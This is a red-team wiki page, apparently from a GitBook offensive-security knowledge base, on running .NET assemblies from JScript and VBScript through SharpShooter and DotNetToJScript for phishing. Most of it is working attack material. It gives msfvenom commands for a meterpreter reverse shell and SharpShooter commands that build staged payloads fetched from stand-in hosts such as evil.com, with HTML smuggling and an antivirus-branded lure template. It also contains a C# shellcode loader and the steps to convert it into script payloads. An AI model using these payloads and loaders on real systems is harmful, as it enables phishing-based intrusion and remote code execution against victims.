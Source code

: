 ```yaml
---
description: MITRE ATT&CK™ Reflective Code Loading - Technique T1620
---
```


# .NET Assembly from Windows Script Hosting

## Theory

You can load and execute .NET (C#) assemblies directly into memory from a compiled binary using Jscript, VBScript, or VBA Mcros, by using the DotNetToJScript technique from James Forshaw.

{% hint style="success" %}
As double-clicking  `.js` or .`vbs` or other script files on Windows will by default execute them through the [Windows-Based Script Host](../code-execution/wsh.md),  this technique can efficiently be used for phishing and even phishing with [HTML Smuggling](../../delivery/phishing/html-smuggling.md).
{% endhint %}

## Practice

{% tabs %}
{% tab title="UNIX-like" %}
[SharpShooter](https://github.com/mdsecactivebreach/SharpShooter) (Python) can be used to creat payloads in a variety of formats, including HTA, JS, VBS and WSF. It leverages James Forshaw's [DotNetToJavaScript](https://github.com/tyranid/DotNetToJScript) tool to invoke methods from the SharpShooter DotNet serialised object.

SharpShooter supports both staged and stageless payload execution.&#x20;

* **Stagless payload** will embed the whole .NET in the generated file.
* **Staged payloads** will attempt to retrieve a CSharp source code file that has been zipped and then base64 encoded using the chosen delivery technique (DNS or HTTP).  The CSharp source code will be downloaded and compiled on the host using the .NET CodeDom compiler. Reflection is then subsequently used to execute the desired method from the source code. A summary of how SharpShooter operates during staging is shown in the diagram below:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption><p><a href="https://www.mdsec.co.uk/2018/03/payload-generation-using-sharpshooter/">https://www.mdsec.co.uk/2018/03/payload-generation-using-sharpshooter/</a></p></figcaption></figure>

However for both types of payload, we should first generate a shellcode.&#x20;

```bash
# Generate a shellcode for stagless payloads
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.121 LPORT=443 -f raw -o msf.raw

# Generate a shellcode for staged payloads
# The shellcode file should only contain the raw bytes, not the variable definition. For example byte[] buf = new byte[999] { 0x01, 0x02, 0x03 … would mean the shellcode file would contain just 0x01, 0x02, 0x03.
msfvenom -p windows/x64/exec CMD=calc.exe -f csharp > /tmp/raw.cs; cat /tmp/raw.cs |sed 's/byte\[\] buf = new byte\[[0-9]\+\] {//g' |sed 's/};//g' > msf.raw
```

{% hint style="danger" %}
When generating HTA payloads, we should always use 32-bit shellcodes due to mshta.exe being a 32-bit binary.
{% endhint %}

#### Stagless Payloads

We can now generate stageless payloads as follows.

```bash
# --payload:    Payload type: hta, js, jse, vbe, vbs, wsf, macro, slk
# --dotnetver:  Target .NET Version: 2 or 4
# --stageless:  Entire generated payload will be transferred at once (no HTML smuggling)

# Embedding a .NET assembly in JScript
sharpshooter --payload js --dotnetver 4 --stageless --rawscfile msf.raw --output evil

# Embedding a .NET assembly in VBScript
sharpshooter --payload vbs --dotnetver 4 --stageless --rawscfile msf.raw --output evil
```

#### Stagled Payloads

We can generate stageled payloads as follows.

```bash
# --payload:    Payload type: hta, js, jse, vbe, vbs, wsf, macro, slk
# --dotnetver:  Target .NET Version: 2 or 4
# --com:        COM Staging Technique: outlook, shellbrowserwin, wmi, wscript, xslremote
# --delivery:   Delivery method for the stage: web, dns, both
# --web:        URI for web delivery
# --shellcode:  Use built in shellcode execution
# --template:   HTTP Template for the HTTP generated file (for delievry)
# --smuggle:    Smuggle payload into generated HTTP

# HTTP Smuggling Delivery + Staged Payload to retreive the .NET to execute (in JScript)
sharpshooter --payload js --dotnetver 2 --shellcode --scfile msf.raw --output evil --delivery web --web http://www.evil.com/evil.payload --smuggle --template mcafee
```

For previous example, SharpShooter will have created 3 separate files in the output directory, evil.html, evil.js and evil.payload.

* **evil.js:** JavaScript payload that the user will eventually execute. If you are using HTML smuggling, this file does not need to be sent to the user, it’s provided purely for information and debugging purposes.
* **evil.html:** is the HTML file that we will ultimately coerce the user in to opening by whatever means. This file contains the encrypted copy of evil.js which is decrypted using JavaScript then served to the user using the navigator.mssaveBlob technique.
* **evil.payload**: is the C Sharp source code that will be retrieved, compiled and executed on the target host. In this case, the file contains a harness that will execute the supplied shellcode. The source code file is zipped then base64 encoded. The file should be hosted at the URI `http://www.evil.com/evil.payload`&#x20;

Alternatively, we can retreive a custom .NET from our staged payload:

```bash
# Custom .NET inside VBS
sharpshooter --dotnetver 4 --payload vbs --sandbox 2,3,4,5 --delivery web --refs mscorlib.dll,System.Windows.Forms.dll --namespace MDSec.SharpShooter --entrypoint Main --web http://www.phish.com/implant.payload --output malicious --smuggle --template mcafee
```
{% endtab %}

{% tab title="Windows" %}
[DotNetToJScript](https://github.com/tyranid/DotNetToJScript) is a tool created by James Forshaw that allows .NET (C#) assemblies to be executed within JavaScript or VBScript.

#### **Prepare the .NET Assembly**

First, you need to create or identify a **.NET assembly** (DLL or EXE) that contains the code you want to run. This assembly could perform any function, such as spawning a reverse shell, executing arbitrary code, or interacting with system resources.

In the example below, we create and compile our own C# code that can execute a supplied shellcode.

{% code title="evil.cs" %}
```csharp
// Compile this code as a DLL for x64 arch using Visual Studio 
using System;
using System.Runtime.InteropServices;

[ComVisible(true)]
public class EvilLoader
{
    [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
    static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
    [DllImport("kernel32.dll")]
    static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
    [DllImport("kernel32.dll")]
    static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

    public EvilLoader()
    {
        //msfvenom -p windows/x64/exec CMD=calc.exe -f csharp
        byte[] buf = new byte[276] {0xfc,0x48,0x83,0xe4,0xf0,0xe8......};

        int size = buf.Length;
        IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);
        Marshal.Copy(buf, 0, addr, size);
        IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
        WaitForSingleObject(hThread, 0xFFFFFFFF);
    }
    
    public void RunProcess(string path)
    {
        Process.Start(path);
    }
}
```
{% endcode %}

#### **Execute DotNetToJScript**

DotNetToJScript takes your compiled .NET assembly as input. The tool will embed this assembly into the output JScript or VBScript code.

{% hint style="info" %}
When using custom .NET assembly like in our example (i.e not the "ExampleAssembmy" provided code) we should specify the assembly class name and entry function.
{% endhint %}

```powershell
# -c:      Entry class name
# --lang:  Language to use (JScript, VBA, VBScript)
# --ver:   .NET version to use (None, v2, v4, Auto)

# Embedding a .NET assembly in JScript
.\DotNetToJScript.exe evil.dll -c EvilLoader --lang=Jscript --ver=v4 -o evil.js

# Embedding a .NET assembly in VBScript
.\DotNetToJScript.exe evil.dll -c EvilLoader --lang=VBScript --ver=v4 -o evil.js

# Embedding a .NET assembly in VBA
.\DotNetToJScript.exe evil.dll -c EvilLoader --lang=VBA --ver=v4 -o evil.js
```

#### **Execute the Payload**

Generated JScript or VBScript payload can be executed by double-clicking it or using [Windows Script Host](../code-execution/wsh.md). Such


{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://www.mdsec.co.uk/2018/03/payload-generation-using-sharpshooter/" %}

{% embed url="https://ppn.snovvcrash.rocks/red-team/maldev/code-injection/shellcode-runners#c-dll-to-jscript" %}

{% embed url="https://www.ired.team/offensive-security/defense-evasion/executing-csharp-assemblies-from-jscript-and-wscript-with-dotnettojscript" %}

